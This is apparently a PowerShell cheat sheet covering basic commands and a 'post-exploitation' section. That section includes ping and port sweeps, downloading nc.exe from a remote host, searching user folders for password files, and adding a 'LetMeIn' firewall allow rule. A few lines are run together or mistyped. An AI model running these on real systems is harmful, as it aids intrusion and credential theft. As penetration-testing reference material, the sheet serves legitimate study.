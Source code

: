 Some common commands used in Windows and Linux 

## Powershell
* Get a directory listing (ls, dir, gci):
```
PS C:\> Get-ChildItem
```
* Copy a file (cp, copy, cpi):
```
PS C:\> Copy-Item src.txt dst.txt 
```
* Move a file (mv, move, mi): 
```
PS C:\> Move-Item src.txt dst.txt 
```
* Find text within a file: 
```
PS C:\> Select-String –path c:\users\*.txt –pattern password 
PS C:\> ls -r c:\users -file | % 
{Select-String -path $_ -pattern 
password}
```
* Display file contents (cat, type, gc): 
```
PS C:\> Get-Content file.txt 
```
* Get present directory (pwd, gl): 
```
PS C:\> Get-Location 
```
* Get a process listing (ps, gps): 
```
PS C:\> Get-Process 
```
* Get a service listing: 
```
PS C:\> Get-Service 
```
* Formatting output of a command (Format-List): 
```
PS C:\> ls | Format-List –property name
```
* Paginating output: 
```
PS C:\> ls –r | Out-Host -paging 
```
* Get the SHA1 hash of a file: 
```
PS C:\> Get-FileHash -Algorithm SHA1 file.txt 
```
* Exporting output to CSV: 
```
PS C:\> Get-Process | Export-Csv procs.csv 
```
### For post-exploitation
* Conduct a ping sweep: 
```
PS C:\> 1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | SelectString ttl} 
```
* Conduct a port scan: 
```
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null 
```
* Fetch a file via HTTP (wget in PowerShell): 
```
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe") 
```
* Find all files with a particular name: 
```
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt 
```
* Get a listing of all installed Microsoft Hotfixes: 
```
PS C:\> Get-HotFixNavigate the Windows registry: 
PS C:\> cd HKLM:\ 
PS HKLM:\> ls 
```
* List programs set to start automatically in the registry: 
```
PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run 
```
* Convert string from ascii to Base64: 
```
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PS FTW!")) 
```
* List and modify the Windows firewall rules: 
```
PS C:\> Get-NetFirewallRule –all 
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -RemoteAddress 10.10.10.25 
```


